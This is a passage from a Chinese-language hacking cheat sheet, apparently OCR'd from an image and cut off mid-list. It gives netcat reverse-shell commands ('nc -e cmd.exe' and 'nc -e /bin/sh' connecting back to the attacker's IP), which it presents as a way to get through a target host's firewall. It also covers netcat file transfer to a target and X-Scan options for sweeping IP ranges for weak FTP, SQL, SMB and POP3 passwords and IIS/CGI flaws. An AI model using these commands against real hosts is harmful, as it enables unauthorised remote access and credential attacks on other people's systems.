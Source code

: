 　　本机上用：nc -l -p 本机端口

　　在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K

　　nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙

　　本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称

　　在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机

　　备 注：

　　| 管道命令

　　< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令

　　@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中

　　>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。

　　如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。

　　八：

　　扫描工具：xscan.exe

　　基本格式

　　xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息

　　xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息

　　检测项目

　　-active 检测主机是否存活

　　-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）

　　-port 检测常用服务的端口状态

　　-ftp 检测FTP弱口令

　　-pub 检测FTP服务匿名用户写权限

　　-pop3 检测POP3-Server弱口令

　　-smtp 检测SMTP-Server漏洞

　　-sql 检测SQL-Server弱口令

　　-smb 检测NT-Server弱口令

　　-iis 检测IIS编码/解码漏洞

　　-cgi 检测CGI漏洞

　　-nasl 加载Nessus攻击脚本

　　-all 检测以上所有项目

　　其它选项

　　-i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
